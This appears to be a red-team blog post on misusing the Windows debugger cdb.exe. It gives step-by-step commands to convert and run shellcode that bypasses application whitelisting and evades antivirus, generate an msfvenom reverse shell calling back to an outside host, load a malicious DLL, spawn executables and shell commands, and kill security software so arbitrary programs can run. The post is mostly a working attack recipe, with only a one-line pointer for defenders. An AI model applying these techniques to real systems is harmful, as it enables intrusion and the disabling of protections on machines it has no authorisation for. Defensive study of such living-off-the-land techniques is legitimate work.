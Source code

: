 ```yaml
---
title: The Power of Cdb.exe
date: "2021-01-08"
---
```


Exploring the little known uses of cdb<!-- end -->.

I personally feel cdb doesn't get the credit it deserves, I mean it has <i>a lot</i> of uses. If I missed any use case feel free to DM me on Twitter.

# Table of Contents

1. Running Shellcode
2. Launching an Executable
3. Running a DLL
4. Executing Shell Commands
5. Terminating Security Solutions

# Running Shellcode

Exploit Monday released a great <a href="http://www.exploit-monday.com/2016/08/windbg-cdb-shellcode-runner.html">article</a> in 2016 showing how to use cdb.exe to run shellcode and bypass application whitelisting. I highly recommend you check it out before continuing along. Essentially what you're doing is:

1. Allocating RWX memory
2. Copying the shellcode to the allocated buffer
3. Executing the shellcode

There's nothing difficult about it but I felt as though the unusual shellcode syntax used by cdb may have scared off some people from trying this technique as it looks quite intimidating at first glance. Let's see how to convert regular shellcode to the one used by cdb.

## Converting the Shellcode

    #Input
    \x6a

    #Conversion
    #Strip '\x' and convert shellcode to uppercase
    #hex_counter starts at 00
    ";eb @$t0+" + hex_counter + " " + upper(strip(shellcode))

    #Output
    ;eb @$t0+00 6A

It's that easy! It's also great at evading AV detection due to its unusual format. If you're lazy like me and don't want to write a script then you're in luck, here's a usable <a href="https://github.com/galoryber/MITRE/blob/master/Defense_Evasion/T1127-CDB.py">script</a> I found online.

## Example

First generate shellcode using msfvenom.

    msfvenom -p window/x64/shell_reverse_tcp LHOST=10.0.0.197 LPORT=4444 -f python

Next, Download the aforementioned script and replace the shellcode with yours then run the script.

    python3 script.py > test.wds

Then send it over to the target machine and run the following command

    cdb.exe -pd -cf c:\path\to\payload\test.wds -o notepad.exe

![Shellcode-Run](./shellcode_run.gif)

Notepad won't appear to the user but it is running in the background. The notepad process looks benign until you see that it's establishing a network connection, so it'd be better to use a more realistic program.

![Notepad-Network](./notepad_tcp.png)

# Launching an Executable

You can use cdb to spawn an executable as a child process. You'll need to attach cdb to any running process to be able to run your executable, I'll be using notepad.

    #you can use -p to specify PID instead
    cdb.exe -pd -pn notepad.exe -a "c:\users\mr.d0x\desktop\out.exe"

    #When it hits any breakpoint press 'g'
    ntdll!DbgBreakPoint:
    00007ffb`58a60120 cc
    0:003> g

![Launch-Executable](./launch_exe.gif)

Looking at Process Hacker we see cdb spawning the executable as a child process.

![Child-Process](./child_processes.png)

## Detaching The Executable

You can also hit CTRL+C then 'q' in the cdb console to exit cdb without impacting the executable or the process it's attached to, thanks to the -pd flag. The downside of doing that is losing cdb as the parent process.

![No-Parent](./no_parent.png)

# Running a DLL

You can use cdb to load a DLL. The DLL is loaded inside cdb not the attached process. The downside of this technique is it won't work if you don't have the rest of the debugger tools because cdb requires additional DLLs that are located inside the directory.

To execute a DLL, first attach cdb to any process.

    cdb.exe -pd -pn notepad.exe

Then use the .load command and specify the full path to your DLL.

    .load c:\path\to\dll\evil.dll

![DLL-Injection](./dll_injection.gif)

If we look at the DLLs loaded by cdb we see our injected DLL, d32lib.dll.

![Cdb-DLLs](./dll_cdb.png)

# Executing Shell Commands

Again, attach cdb to any process.

    cdb.exe -pd -pn notepad.exe

Use .shell to run a shell command.

    .shell ping 127.0.0.1

![Shell-Cmd](./shell_command.png)


In Process Hacker we can see that cdb spawns cmd.exe to run these commands.

![Cdb-Children-Processes](./spawn.png)

# Terminating Security Solutions

Have you ever tried to stop a security solution? If you did then you probably got something like this:

![Access-Denied](./access_denied.png)

How can cdb help? If you can get cdb to attach to a process then you can cause it to terminate. I used this unorthodox technique against an application whitelisting tool that shall remain unnamed. It caused the process to terminate which gave me a window of about 30 seconds to run any executable I wanted.

    #Run this as administrator
    #If you don't get 'Access denied' then just press 'q'
    #The attached process will then terminate
    cdb.exe -p <PID>


# Final Remarks

Cdb may come in handy during some engagements so it's best to have the executable in your toolset. As for defenders, Microsoft <a href ="https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules">recommends cdb to be blocked</a> from running and whitelisting it for specific users when it's explicity needed.

# References

* http://www.exploit-monday.com/2016/08/windbg-cdb-shellcode-runner.html
* https://github.com/galoryber/MITRE/blob/master/Defense_Evasion/T1127-CDB.py
* https://fortynorthsecurity.com/blog/how-to-bypass-wdac-with-dbgsrv-exe/

# Acknowledgement

Shout out to <a href="https://www.instagram.com/spooky_sec/">@spooky_sec</a> for helping me out in running some of these tests. Follow him on Instagram for good reverse engineering posts.

